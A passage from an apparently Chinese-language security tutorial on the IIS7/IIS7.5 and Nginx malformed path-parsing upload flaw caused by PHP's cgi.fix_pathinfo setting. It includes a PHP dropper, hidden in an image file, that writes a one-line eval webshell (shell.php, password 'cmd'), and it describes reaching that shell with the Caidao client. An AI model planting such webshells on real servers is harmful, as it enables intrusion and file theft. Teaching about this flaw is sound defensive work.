 ③ IIS 高版本上传–畸形解析漏洞  
前面讲述的 IIS6.0 毕竟是一个低版本，除了靶场和僵尸站很少能够遇到。下面讲解高版本漏洞。

*   畸形解析漏洞影响版本  
    IIS7、IIS7.5、Nginx<0.8.03
    
*   漏洞产生条件  
    开启 Fast-CGI 或 php 配置文件中 cgi.fix_pathinfo。
    
*   漏洞产生原因  
    其漏洞不是 IIS 本身的问题，而是 PHP 配置不当造成的问题，根本原因是开启了 cgi.fix_pathinfo 选项。由于该漏洞是 php 配置造成，并且默认开启该功能，所以它影响了 IIS7、IIS7.5、IIS8.5 等多个版本，凡是 IIS+PHP 都有可能会有这个漏洞。
    
*   漏洞利用方法  
    当我们上传一张名为 “1.jpg” 的图片文件，并且这张图片文件里包含以下代码。那么它会生成一个叫 shell.php 的脚本文件，并写入我们的一句话，密码为 cmd。而一句话的位置是：上传的图片文件名字 “/shell.php”。如果图片没有被改名，那么现在我们的一句话文件在“1.jpg/shell.php” 中。
    

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```

接着我们演示另一个代码，将 “1.jpg” 内容修改如下，直接写入 shell。

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcbtArQju8zb5InW0L0pkLT6iaFTH2n4dcZn8lOyneAJ5icy5zWGl431dQ/640?wx_fmt=png)

访问 “/1.jpg/shell.php” 显示的内容为空。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcfG4ahlhia8avUtDO1mXD91FeMvDAdMHV3zSziazeOIRuUvXJQ1DmUjnA/640?wx_fmt=png)

但是此时会在服务器生成一个名为 “shell.php” 的文件，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcMsnWoibIAvaUkc5vM8BzyNYrIPyb3fRF0LrF8mWO7Y02491kGDnczJw/640?wx_fmt=png)

并且 “shell.php” 包含了我们的一句话木马，这样通过 Caidao 即可访问该页面，并获取服务器的文件目录。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CceG07XvmBsuVuF9FEpc4bxNLIT81HQh1eX8Jmxib7iaFv7uRTYXF5VKog/640?wx_fmt=png)

使用该方法我们尝试插入一句话木马，很幸运我们的图片是成功上传了。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcafU2L0aib54BcbBBNHGUjv6BNbyRia53uys6iaQPH6SdSuQMSJoibF5TYw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcCjUiaEL4yJicLbuhvaibEkiberHticczYzKwqS4cSiaUpn1ibMGKBz3BNib15w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcCib7pLGK3sym2vo22YXw3LBM0mA8q48FicicwEecuWSYwy09pPrFicXISg/640?wx_fmt=png)

但遗憾的是，并没有生成 shell.php 文件，并且提示：

*   The requested URL /upload/0835ddbdeff6aa  
    08c9b7804a24dc203e/gif-ma04.gif/shell.php was not found on this server.
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcNUSCoNPrMT33qgk97ibMNOm9CzD9sFuYU4hCS63aauF3Z4Qd4VKRtTw/640?wx_fmt=png)
